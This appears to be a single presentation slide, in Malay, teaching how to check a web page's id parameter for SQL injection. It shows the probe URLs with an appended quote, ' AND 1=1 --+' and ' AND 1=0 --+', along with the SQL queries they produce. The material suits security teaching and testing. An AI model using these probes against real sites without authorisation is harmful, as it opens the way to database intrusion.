

# Checking Vuln Untuk Injection
Cara yang pertama adalah dengan letakkan tanda ketik selepas nombor :

http://domain.com/php?id=1’

Kemudian, Inject ke dalam query untuk dapatkan answer TRUE :

http://domain.com/php?id=1' AND 1=1 --+
SELECT * from table_name WHERE id=1' AND 1=1

Inject ke dalam query untuk dapatkan answer FALSE :

http://domain.com/php?id=1' AND 1=0 --+
SELECT * from table_name WHERE id=1' AND 1=0

DFM_Rekrut